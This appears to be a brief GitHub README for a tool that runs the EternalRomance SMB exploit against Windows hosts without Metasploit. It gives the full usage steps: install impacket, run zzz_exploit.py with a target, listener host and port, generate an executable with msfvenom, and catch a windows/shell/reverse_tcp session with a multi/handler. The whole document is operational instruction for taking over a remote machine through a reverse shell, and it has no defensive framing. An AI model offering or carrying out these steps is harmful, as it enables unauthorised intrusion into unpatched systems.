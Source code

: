 # Z2
Manual Eternal Romance V2

MANUAL ETERNAL ROMANCE WITHOUT METASPLOIT

pip3 install impacket

All files required.

python zzz_exploit.py TARGET LHOST LPORT

Will generate a new exe in msfvenom before performing the attack.

Set up a multi/handler with payload windows/shell/reverse_tcp 
